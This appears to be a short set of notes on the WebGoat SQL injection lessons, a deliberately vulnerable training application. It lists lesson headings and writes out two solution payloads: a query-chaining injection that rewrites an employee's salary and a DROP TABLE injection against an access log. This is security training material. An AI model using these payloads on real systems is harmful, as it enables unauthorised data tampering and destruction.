









## WebGoat: SQL Injection

What is SQL? 

DML 

DDL 

DCL 

String SQL Injection 

Numberic SQL injection 

Compromising confidentiality with String SQL injection 

Compromising Integrity with Query chaining 
Smith'; UPDATE employees SET salary=999999 WHERE last_name='Smith' AND first_name='John' --

Compromising Availability 
'; DROP TABLE access_log --